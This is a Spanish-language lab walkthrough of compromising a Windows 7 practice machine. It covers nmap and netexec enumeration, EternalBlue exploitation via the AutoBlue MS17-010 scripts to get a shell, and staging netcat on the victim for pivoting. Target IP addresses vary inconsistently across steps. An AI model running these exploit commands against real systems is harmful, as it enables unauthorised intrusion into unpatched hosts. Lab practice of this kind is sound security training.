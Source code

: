 [[192.168.100.7(Nagini)]]
#Dumbledore 
- Pwned

Haremos un scaneo de red con [[NMAP]]
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 192.168.100.9`

```python
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
554/tcp  open  rtsp
5357/tcp open  wsdapi
```

Para enumerar el servicio SMB usaremos [[CRACKMAPEXEC-NETEXEC]] con:
`netexec smb 192.168.100.4 2>/dev/null`
```python
SMB 192.168.100.4 445 DUMBLEDORE-PC    
[*] Windows 7 / Server 2008 R2 Build 7601 x64 
(name:DUMBLEDORE-PC) 
(domain:Dumbledore-PC) 
(signing:False) 
(SMBv1:True) 
```

Estamos ante un Windows 7 con el puerto SMB expuesto.
Como es una versión y un puerto vulnerables vamos a realizar un ataque de eternalBlue
Usáremos el repositorio de GitHub: `https://github.com/3ndG4me/AutoBlue-MS17-010`
Dentro de esta herramienta usaremos primero `eternal_checker.py` usaremos para saber si la maquina es vulnerable: `python3 eternal_checker.py 192.168.100.9`

Ahora automatizaremos el proceso de obtener una consola interactiva con la herramienta `zzz_exploit.py` ejecutándola con `python3 zzz_exploit.py 192.168.100.9` y conseguiremos usa Shell dentro de la maquina Windows.

Una vez dentro si hacemos `ipconfig` veremos que dentro se encuentra otra interfaz de red con  [[172.18.0.6(Dumbledore)]] 

Nos descargamos netcat para Windows desde `https://eternallybored.org/misc/netcat/`
Lo descomprimimos en un directorio llamado netcat `unzip -d netcat netcat-win32-1.12.zip`
Y el archivo `nc64.exe` deberemos compartirlo con la maquina Windows al directorio `C:\Windows\`

